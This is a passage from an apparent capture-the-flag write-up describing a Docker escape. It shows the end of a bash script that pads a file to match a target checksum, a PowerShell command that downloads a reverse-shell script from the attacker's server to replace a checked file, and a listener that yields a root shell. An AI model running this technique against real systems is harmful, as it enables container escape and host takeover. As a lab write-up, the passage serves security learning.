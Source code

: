 ```bash
        echo "The file's checksum now matches the target: $CURRENT_CHECKSUM"
        break
    fi

    echo -n "#" >> "$FILE_PATH"

done
```
After creating `shell.sh`, transfer it onto the target machine, which can be done via a Python server.
![[prepare-exploit.png]]

Then, on the target machine, replace the file in `Z:/`:
```powershell
Invoke-WebRequest -Uri http://10.0.10.35:8000/shell.sh -OutFile healthy.sh
```

Set up a listener and wait for a connection.

Finally, voilà! We successfully obtain a shell and retrieve `root.txt`!
![[machine-exploited.png]]
# Conclusion
By exploring further, we can find a `docker-compose.yml` file, which reveals that **Windows** is running as a **Docker container** on a **Linux** host. The shared folder we accessed earlier is mounted between the Linux host and the Docker container.  
![[docker-compose-file.png]]  
![[shared-folder.png]]

This was a non-standard Docker escape technique that leveraged weak file integrity checks.

